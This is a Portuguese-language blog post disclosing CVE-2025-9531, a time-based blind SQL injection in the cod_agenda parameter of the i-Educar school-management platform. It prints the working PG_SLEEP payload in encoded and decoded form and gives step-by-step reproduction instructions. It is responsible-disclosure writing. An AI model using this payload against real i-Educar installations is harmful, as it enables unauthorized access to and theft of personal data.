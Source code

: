 # CVE-2025-9531


Como encontrei uma **Injeção Blind de SQL baseada em tempo** no i-Educar (com atraso real e PoC).

<!--more-->

> ***🇺🇸 Read in [English](http://karinagante.github.io/cve-2025-9531/).***

## CVE-2025-9531

### Introdução

<p align="justify">Ao me aprofundar no projeto Open-Source <b><a href="https://github.com/portabilis/i-educar" target=_blank>i-Educar</a></b>, descobri uma vulnerabilidade crítica de injeção de SQL (Blind), baseada em tempo, no parâmetro <b>cod_agenda</b> do endpoint <b>agenda.php</b>. </br> Essa falha permite que invasores executem consultas SQL arbitrárias silenciosamente no banco de dados de back-end, colocando em risco a confidencialidade, a integridade e a disponibilidade dos dados. </br> Após validar o problema usando um payload que causou atrasos mensuráveis ​​na resposta do servidor, relatei o problema de forma responsável, e o problema foi oficialmente atribuído como <b><a href="https://www.cve.org/CVERecord?id=CVE-2025-9531" target=_blank>CVE-2025-9531</a></b>. </p>

### O que é a CVE-2025-9531?

<p align="justify"><b><a href="https://www.cve.org/CVERecord?id=CVE-2025-9531" target=_blank>CVE-2025-9531</a></b> é uma vulnerabilidade de injeção de SQL no endpoint <b>/intranet/agenda.php</b> do aplicativo <b><a href="https://github.com/portabilis/i-educar" target=_blank>i-Educar</a></b>. </br> O parâmetro vulnerável é <b>cod_agenda</b>, que não possui validação de entrada adequada. </br> Isso possibilita a injeção de consultas SQL personalizadas, incluindo funções <code>PG_SLEEP()</code> que introduzem atrasos de tempo, confirmando a falha por meio de comportamento baseado em tempo. </p>

### Detalhes Técnicos

➤ **Endpoint vulnerável** `/intranet/agenda.php`

➤ **Parâmetro afetado:** `cod_agenda`

> ➤ **Payload Utilizado (Codificado)** 
> ```sql
>%27%20AND%204698=(SELECT%204698%20FROM%20PG_SLEEP(5))%20AND%20%27xiCO%27=%27xiCO
>```

> ➤ **Payload Utilizado (Decodificado)** 
> ```sql
>' AND 4698=(SELECT 4698 FROM PG_SLEEP(5)) AND 'xiCO'='xiCO
>```

### Proof of Concept (PoC)

Para reproduzir a vulnerabilidade:

➤ Acesse o endpoint vulnerável e clique em **"Novo Compromisso"**

➤ Preencha os campos obrigatórios e clique em **"Salvar"**

➤ O sistema redireciona para uma URL como:

```URL
http://localhost:8086/intranet/agenda.php?cod_agenda=2&time=1755283
```
<br>
➤ Agora, modifique o parâmetro `cod_agenda` com o payload:

```URL
/intranet/agenda.php?cod_agenda=2' AND 4698=(SELECT 4698 FROM PG_SLEEP(5)) AND 'xiCO'='xiCO
```
> <p align="justify">O servidor levará 5 segundos para responder, confirmando que a consulta SQL foi executada com sucesso.</p>

<p align="center">
<img src="/images/CVE-2025-9531/PoC1.png"><br>
</p>

{{< admonition tip Report >}}
Você pode acessar o relatório completo e ver o passo a passo completo aqui:

{{< fa-icon regular github >}}
***[Relatório CVE-2025-9531](https://github.com/KarinaGante/KGSec/blob/main/CVEs/Scada-LTS/CVE-2025-9531.md)***
{{< /admonition >}}

### Impacto

Essa vulnerabilidade pode ser explorada para:

- Acessar dados confidenciais armazenados no banco de dados;
- Enumerar esquemas, tabelas e colunas do banco de dados;
- Modificar, excluir ou inserir registros arbitrários;
- Roubar credenciais de usuários e informações pessoais;
- Executar negação de serviço (DoS) acionando longos atrasos nas consultas;
- Em alguns casos, escalar para Execução Remota de Código (RCE).

### Fontes Oficiais

A falha foi reportada eticamente e atribuída como:

{{< admonition important Referências>}} 
{{< fa-icon regular shield >}} 
***[CVE-2025-9531 no CVE.org](https://www.cve.org/CVERecord?id=CVE-2025-9531)***

{{< fa-icon regular database >}} 
***[Entrada no VulDB](https://vuldb.com/?id.321550)***
{{< /admonition >}}

### Conclusão

<p align="justify">Ataques de injeção de SQL continuam sendo uma das ameaças mais críticas a aplicações web, especialmente quando silenciosos e baseados em tempo. Esta descoberta prova como um único parâmetro não validado pode comprometer todo o banco de dados por trás de uma plataforma. </br></br> Se você é desenvolvedor ou analista de segurança, fique atento: <b>mesmo endpoints pequenos e aparentemente inofensivos podem esconder falhas perigosas.</b></p>

## Créditos

***Descoberto com💜 por [Karina Gante](https://karinagante.github.io/).*** 

[![LinkedIn](https://skillicons.dev/icons?i=linkedin&theme=dark)](https://www.linkedin.com/in/karina-gante/)
[![GitHub](https://skillicons.dev/icons?i=github&theme=dark)](https://www.github.com/KarinaGante/)
[![gmail](https://skillicons.dev/icons?i=gmail&theme=dark)](mailto:karina.gante1@gmail.com)
[![Instagram](https://skillicons.dev/icons?i=instagram&theme=dark)](https://www.instagram.com/karinovisk02/)

> ***Membro Oficial do [CVE-Hunters](https://www.cvehunters.com/)🏹***
